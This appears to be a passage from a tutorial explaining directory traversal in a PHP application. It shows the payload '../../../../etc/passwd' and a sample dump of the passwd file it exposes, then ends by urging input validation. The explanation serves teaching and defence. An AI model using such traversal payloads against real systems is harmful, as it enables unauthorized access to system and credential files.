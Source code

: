 In this example, the user is submitting
"`../../../../../../../../etc/passwd`". This will cause the PHP interpreter to
leave the directory that it is coded to look in ("`/var/www/html`") and
instead be forced up to the root folder. Ultimately, this will become
"`/etc/passwd`" because the computer will not go a directory above its top
directory.

The application will then load the "`/etc/passwd`" file and output something
of the following to the user:

```
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin
vnstat:x:101:102:vnstat:/var/lib/vnstat:/bin/false
redis:x:102:103:redis:/var/lib/redis:/bin/false
```

The concept of directory traversal can be applied to any application that
accepts input from a user to construct a file path. This vulnerability can be
exploited to gain unauthorized access to sensitive data, such as configuration
files, application source code, or user data, by manipulating the input to
traverse to directories outside of the intended scope.

Attackers can use the obtained data to launch further attacks, such as
extracting credentials, injecting malicious code, or launching phishing
campaigns. Therefore, it is critical to properly sanitize and validate user
input to prevent directory traversal attacks and ensure the security of the
application and the system it runs on.
